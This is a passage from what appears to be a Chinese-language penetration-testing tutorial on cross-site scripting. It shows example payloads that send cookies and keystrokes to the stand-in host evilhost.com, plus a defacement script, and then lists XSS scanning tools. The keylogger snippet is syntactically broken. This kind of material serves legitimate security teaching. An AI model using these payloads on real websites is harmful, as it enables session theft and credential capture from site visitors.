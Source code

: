 HTML DOM 的`document.cookie`属性返回分配给当前会话的所有 cookie 的值。例如，攻击者可以将以下脚本插入易受 XSS 攻击的网站的评论部分：

```
<script language="Javascript">
  Document.location='http://www.evilhost.com/cookielogger.php?cookie= '+document.cookie;
</script>
```

当用户查看网页时，也会下载评论。这包括前面的脚本，该脚本将在攻击者的控制下将 cookie 发送到`evilhost.com`服务器。

### 提示

如果设置了`HttpOnly`标志（可选 cookie 标志），JavaScript 将无法访问 cookie。

## 键盘记录器

攻击者还可以通过注入 JavaScript 收集受害者的所有击键，JavaScript 将记录用户类型的所有信息，如密码、信用卡号等，然后将其发送到他或她控制的服务器。

此处显示了记录所有击键的示例脚本：

```
<script>
  document.onkeypress = function(e)
  var img = new Image();
  img.src='http://www.evilhost.com/keylogger.php?data='+e.which;
</script>
```

每当用户按键时，`onkeypress`事件被触发。在前面的脚本中，为每个按下的键创建一个名为`e`的对象。`which`关键字是对象`e`的一个属性，它存储被按下的键的键代码。

## 网站污损

网站污损是对网站的一种攻击，它会改变网站的视觉外观。这些攻击大多是由黑客活动主义者实施的，他们想宣传自己的议程。`document.body.innerHTML`属性允许 JavaScript 操作加载的 HTML 页面的内容。此功能是为合法目的而创建的，但与其他功能一样，攻击者也可以使用此功能进行恶意攻击，在这种情况下，它被用来破坏网页。

通过注入以下脚本，当前页面的内容将替换为`THIS WEBSITE IS UNDER ATTACK`文本：

```
<script>
  document.body.innerHTML="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>";
</script>
```

# 扫描 XSS 缺陷

Kali Linux 有多种工具可用于自动化 XSS 缺陷的测试。更繁琐但更准确的方法是使用手动测试方法，即使用代理拦截 HTTP 请求，操作每个字段，并用有效负载替换它。

应用程序每天都变得越来越复杂，越来越多的用户可编辑字段使得手动测试非常困难，因为测试人员可能会忽略一个易受攻击的参数。当您想要广泛测试特定参数时，手动测试非常有用。从攻击者的角度来看，自动化识别易受攻击参数的任务可以缩短开发最终攻击的时间。Kali Linux 有几种自动扫描 XSS 缺陷的工具，我们将在本节中讨论这些工具：

*   OWASP 加密攻击代理
*   XSSer
*   W3Af

## Zed 攻击代理
